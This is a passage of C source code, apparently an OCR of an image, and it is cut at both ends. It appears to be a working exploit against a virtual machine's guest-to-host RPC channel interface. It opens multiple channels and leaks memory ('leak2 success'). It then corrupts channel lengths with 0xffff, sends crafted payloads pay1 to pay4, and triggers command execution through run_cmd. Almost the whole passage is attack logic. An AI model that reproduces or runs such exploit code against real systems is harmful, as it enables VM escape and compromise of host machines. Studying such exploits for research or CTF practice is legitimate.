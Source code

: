 ```
        printf("fail to recv data len\n");
        return;
    }
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i+=4){
        channel_recv_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,i,data,&res);
    }
    printf("recv data:%s\n",data);
    channel_open(&chan[1].cookie1,&chan[1].cookie2,&chan[1].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_open(&chan[2].cookie1,&chan[2].cookie2,&chan[2].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_open(&chan[3].cookie1,&chan[3].cookie2,&chan[3].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    //channel_recv_finish2(chan[0].cookie1,chan[0].cookie2,chan[0].num,&res);
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,0xffff,&res);
    if(!res){
        printf("fail to recv finish2\n");
        return;
    }
    channel_set_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s3),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    printf("leak2 success\n");
    /***
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }
    ***/
    //channel_recv_finish2(chan[0].cookie1,chan[0].cookie2,chan[0].num,&res);
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,0xffff,&res);
    if(!res){
        printf("fail to recv finish2\n");
        return;
    }
    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,8,&pay1,&res);
    channel_set_len(chan[2].cookie1,chan[2].cookie2,chan[2].num,strlen(s3),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
    channel_set_len(chan[3].cookie1,chan[3].cookie2,chan[3].num,strlen(s3),&res);
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,8,&pay2,&res);
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,8,&pay3,&res);
    channel_send_data(chan[3].cookie1,chan[3].cookie2,chan[3].num,strlen(pay4)+1,pay4,&res);
    run_cmd(s4);
    if(!res){
        printf("fail to set len\n");
```